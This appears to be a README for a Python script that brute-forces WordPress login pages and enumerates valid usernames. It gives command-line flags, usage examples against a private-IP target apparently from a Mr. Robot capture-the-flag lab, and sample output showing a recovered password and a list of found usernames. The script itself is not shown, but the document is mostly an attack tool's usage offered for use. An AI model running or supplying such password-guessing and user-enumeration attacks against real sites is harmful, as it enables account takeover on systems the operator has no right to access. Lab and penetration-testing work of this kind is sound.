 # python-wp-bruteforce 🔥🚀
python Bruteforce login script for wordpress 👻

* -p = file path to password list file 
* -u =  username / file 
* -t = target address 

**target should should look like this http://site.com/wp-login.php**

# usage : 
## brute force with valid username 🎃:   
python3 bf.py -t http://192.168.254.107/wp-login.php  -u elliot -p /home/mivatampos/ctf/mr_robot_1/fsocity.txt  

         ____      ____ _________  ____________  ____________                         
         \   \    /   / |_____   | |______     \ |_   ______|  
          \   \/\/   /  |     ___|   |    |   _/  |    ___|         
           \        /   |    |       |    |    \  |    |     
            \__/\__/    |____|       |_________/  |____|    

                      ***********************
                      * By : intrglctcMilk  *  
                      *     -- @tmpts       * 
                      *********************** 


      [+] Attacking [+] ==> tries : 10 

      [+] **** PASSWORD FOUND ***** [+] =====> [ER28-0652] for user elliot
      [-] Time lapsed : 0.4780855178833008 seconds  [-] 
      [-] Number of attempts : 10 [-] 
      
 ## Enumarating users 🔎
( just dont provide the -p flag it will use the default "admin" password to attempt the login : \n 
python3 bf.py -t http://192.168.254.107/wp-login.php  -u usernames.txt 

         ____      ____ _________  ____________  ____________                         
         \   \    /   / |_____   | |______     \ |_   ______|  
          \   \/\/   /  |     ___|   |    |   _/  |    ___|         
           \        /   |    |       |    |    \  |    |     
            \__/\__/    |____|       |_________/  |____|    

                      ***********************
                      * By : intrglctcMilk  *  
                      *     -- @tmpts       * 
                      *********************** 


      [+] Attacking [+] ==> tries : 10 
      *** VALID USERNAME WAS FOUND *** ===> [elliot ] 
      [+] Attacking [+] ==> tries : 26 
      *** VALID USERNAME WAS FOUND *** ===> [john] 
      [+] Attacking [+] ==> tries : 40 
      *** VALID USERNAME WAS FOUND *** ===> [example] 
      [+] Attacking [+] ==> tries : 42 

      [x] *** List of valid usernames *** [x]
      
                 [+] elliot [+]
                 [+] john [+]
                 [+] example [+]






